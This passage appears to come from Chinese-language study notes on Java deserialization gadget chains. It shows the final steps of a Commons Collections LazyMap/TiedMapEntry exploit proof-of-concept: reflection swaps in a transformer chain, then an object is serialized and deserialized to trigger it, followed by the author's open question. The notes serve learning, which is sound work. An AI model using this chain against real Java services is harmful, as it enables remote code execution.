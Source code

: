         // 5. 塞入
        toBeSerializedHashMap.put(lazyMapIntegerTiedMapEntry, 1);
    
        // 6. 把 lazyMap 中塞入的 key 给去掉
        lazyMap.remove("aaa");
    
        // 7. 通过反射获取 LazyMap 的值，put 后改回来，最终让其在反序列化时触发
        Field factoryField = lazyMap.getClass().getDeclaredField("factory");
        factoryField.setAccessible(true);
        factoryField.set(lazyMap, transformedChain);
    
        String serialize = serialize(toBeSerializedHashMap);
        unSerialize(serialize);
    }
    ```

3. todo 其实还有疑问，这个 `LazyMap` 和 `TiedMapEntry` 的工作原理，如果写：
    `TiedMapEntry lazyMapIntegerTiedMapEntry = new TiedMapEntry<>(lazyMap, hashMap)`，会报栈溢出错误。`TiedMapEntry` 要求第二个参数和第一个参数中的 `key` 的类型相同。payload 中用的 `Object` 类型，所以可以传入字符串。

## 7. 其他的 CC 链 todo

